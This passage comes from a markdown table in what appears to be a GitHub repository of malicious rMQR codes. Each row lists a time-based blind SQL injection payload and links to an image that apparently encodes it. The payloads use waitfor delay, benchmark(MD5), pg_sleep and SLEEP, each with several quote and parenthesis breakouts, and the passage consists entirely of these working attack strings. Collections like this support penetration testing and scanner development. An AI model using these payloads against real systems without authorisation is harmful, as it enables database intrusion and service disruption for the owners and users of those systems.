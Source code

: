 | `";waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/224.png) |
| `');waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/225.png) |
| `");waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/226.png) |
| `));waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/227.png) |
| `'));waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/228.png) |
| `"));waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/229.png) |
| `benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/230.png) |
| `1 or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/231.png) |
| `" or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/232.png) |
| `' or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/233.png) |
| `1) or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/234.png) |
| `") or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/235.png) |
| `') or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/236.png) |
| `1)) or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/237.png) |
| `")) or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/238.png) |
| `')) or benchmark(10000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/239.png) |
| `pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/240.png) |
| `1 or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/241.png) |
| `" or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/242.png) |
| `' or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/243.png) |
| `1) or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/244.png) |
| `") or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/245.png) |
| `') or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/246.png) |
| `1)) or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/247.png) |
| `")) or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/248.png) |
| `')) or pg_sleep(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/249.png) |
| `AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/250.png) |
| `AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/251.png) |
| `AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/252.png) |
| `AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/253.png) |
| `AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/254.png) |
| `SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/255.png) |
| `SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/256.png) |
| `SLEEP(5)="` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/257.png) |
| `SLEEP(5)='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/258.png) |
| `or SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/259.png) |
| `or SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/260.png) |